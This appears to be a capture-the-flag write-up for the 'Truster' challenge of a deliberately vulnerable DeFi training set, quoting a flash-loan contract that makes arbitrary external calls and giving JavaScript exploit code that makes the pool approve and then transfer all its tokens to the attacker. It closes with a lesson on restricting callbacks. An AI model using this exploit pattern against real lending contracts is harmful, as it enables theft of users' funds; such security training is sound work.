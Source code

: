 # Challenge #3: Truster

This challenge is another one where we have to steal all the Ether from the pool while starting with zero balance. 

No special information is added in the description so we have to analyze the code.

```
function flashLoan(
    uint256 borrowAmount,
    address borrower,
    address target,
    bytes calldata data
)
    external
    nonReentrant
{
    uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
    require(balanceBefore >= borrowAmount, "Not enough tokens in pool");
    
    damnValuableToken.transfer(borrower, borrowAmount);
    (bool success, ) = target.call(data);
    require(success, "External call failed");

    uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
    require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
}
```

The lender pool contract has only one non-reentrant function - *flashLoan*. However, there is one important difference from the other pools here:
1. There are 4 parameters in the function and two of them (*target* and *data*) specify the contract and function which is called by the pool when borrowing the token.
2. Basically, I can make the lender contract to call any function of any contract. 

Can you think of any dangerous contract and function?


## Exploit

Indeed, I can call any function of the token contract. For example, I could call the *transfer* function, but then the loan would not be payed back and the transaction would be reverted. 

However, there is one special function that allows to transfer token later in another transaction. That is the *approve* function. I am going to make the pool approve a future transfer to my address. 

Check out the explit code:

```
/* Get approve transation data for further transfer */
let data = web3.eth.abi.encodeFunctionCall({
    name: 'approve',
    type: 'function',
    inputs: [{
        type: 'address',
        name: 'receiver'
    },{
        type: 'uint256',
        name: 'amount'
    }]
}, [attacker, TOKENS_IN_POOL.toString()]);

/* Borrow token and call approve */
await this.pool.flashLoan(0, attacker, this.token.address, data, { from: attacker });
/* Execute aproved transfer */
await this.token.transferFrom(this.pool.address, attacker, TOKENS_IN_POOL, { from: attacker });
```

1. First we generate the call data parameter in order to call the *approve* function with the address of attacker and the balance of the lender (1000 tokens). 
2. Then, we call the *flashLoan* function without borrowing any token, because we would not be able to return it as we tell the lender to call the function of the token contract that we do not control. 
3. After the flash loan transaction is finished, the token contract allows us to transfer the tokens. Therefore, we call the *transferFrom* function to transfer all tokens from the lender contract to the attacker adddress.

## Lesson learned

This challenge is similar to the previous one, except that here we are attacking the pool, not the receiver.

The lesson learned here is the same - the pool must not allow the borrower to call any function and any contract from the pool's contract. 

The function to be called by the pool must be predefined and if it is possible, a subset of trusted contracts to be called should be defined. Usually, the sender (borrower) contract is the one to be called back.

[<< Back to the README](../README.md)